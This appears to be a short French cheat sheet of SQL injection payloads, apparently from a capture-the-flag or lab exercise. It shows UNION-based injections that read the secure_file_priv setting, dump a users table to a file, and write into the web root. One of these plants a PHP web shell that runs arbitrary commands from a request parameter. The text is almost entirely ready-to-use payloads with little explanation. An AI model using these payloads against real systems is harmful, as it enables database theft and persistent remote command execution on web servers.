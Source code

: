 ```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

Si la variable n'est pas mise à 1 alors on peut écrire dans des fichiers : 

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Exemple avec le serveur :
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Web-shell : 
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', '', "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
